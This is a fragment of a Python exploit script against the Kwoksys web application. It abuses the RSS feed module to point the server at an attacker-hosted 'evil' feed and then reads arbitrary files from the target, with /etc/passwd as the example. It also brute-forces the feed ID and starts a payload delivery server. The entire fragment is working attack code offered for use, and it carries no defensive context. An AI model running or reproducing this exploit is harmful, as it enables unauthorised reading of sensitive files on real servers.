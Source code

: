 ```python
        print("-- [+] Successfully Authenticated")
        if self.requestHelper('/kwok/rss/feed-add.htm', 'GET').status_code != 200:
            print("-- [X] User does not have valid permissions to RSS Module")
            exit()
        print("-- [+] Permissions are OK")
        print("[o] Server is likely vulnerable - proceeding.")
        return True

    def retrieve(self, requestedFile, feedID):
        self.update_payload(requestedFile)
        data = 'feedId=' + feedID
        data += '&feedUrl=' + urllib.parse.quote_plus('http://' + str(self.LHOST) + ':' + str(self.LPORT) + '/evil')
        data += '&feedName=Evil%20Blog'
        self.requestHelper('/kwok/rss/feed-edit-2.htm', 'POST', data)
        fileResult = self.requestHelper('/kwok/rss/feed-list-items.htm?feedId=' + feedID, 'GET')
        
        rawText = urllib.parse.unquote((fileResult.content.decode()))
        rawText = (html.unescape(rawText))
        if 'Problem retrieving RSS feed' in rawText:
            print("[X] File not found on target")
            return
        else:
            match = re.search(r'rssTitle">(.*)</a></div>', rawText, re.DOTALL)
            if match:
                print(match.group(1))
        
    def setup(self):
        print('[+] Setting up our evil RSS feed')
        # Change to win.ini if Windows
        self.update_payload('/etc/passwd')
        data = 'feedUrl=' + urllib.parse.quote_plus('http://' + str(self.LHOST) + ':' + str(self.LPORT) + '/evil')
        resp = self.requestHelper('/kwok/rss/feed-add-2.htm', 'POST', data)
	
        # Hunt for our newly created feed ID
        for id in range(0,100):
            result = self.requestHelper('/kwok/rss/feed-edit.htm?feedId=' + str(id), 'GET')
            if (not 'Object Not Found' in str(result.content)):
                if ('Evil Blog' in str(result.content)):
                    feedID = str(id)
                    print("[+] Found our evil RSS feed at ID: " + feedID)
                    return feedID
        print("[+] Could not find feed ID")
        exit()

class EvilHandler(SimpleHTTPRequestHandler):
    # Overload log_message method to suppress access logs from being sent to stdout
    def log_message(self, format, *args):
        logging = False

def StartServer(PORT):
    with socketserver.TCPServer(("", PORT), EvilHandler) as httpd:
        print("[+] Payload Delivery Server now Listening ---> 0.0.0.0:{}".format(PORT))
        httpd.serve_forever()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-b', required=True, dest='base_url', help='Kwoksys Base URL')
    parser.add_argument('--user', '-u', required=True, dest='username', help='Username')
    parser.add_argument('--password', '-p', required=True, dest='password', help='Password')
    parser.add_argument('--mode', '-m', required=True, dest='mode', help='Mode')
```